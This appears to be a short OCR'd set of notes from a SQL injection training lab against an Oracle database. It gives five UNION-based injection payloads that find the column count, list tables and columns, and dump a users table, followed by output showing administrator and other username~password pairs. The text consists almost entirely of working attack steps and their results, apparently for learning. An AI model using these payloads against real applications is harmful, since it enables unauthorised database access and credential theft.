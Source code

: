 1. ' UNION SELECT NULL,NULL-- 
2. ' UNION SELECT 'a',NULL-- 
3. ' UNION SELECT TABLE_NAME,NULL FROM all_tables--
4. ' UNION SELECT COLUMN_NAME,NULL DATA_TYPE FROM all_tab_columns WHERE table_name = 'USERS_JATZDJ'--
5. ' UNION SELECT USERNAME_XIIEFF || '~' || PASSWORD_UXOAMK, NULL FROM USERS_JATZDJ--
output:
```
administrator~a2sb47dqvb60m1hogsfw
carlos~g3dcs4tukujlijmyfvme
wiener~d7vck9actdna98lds0zy
```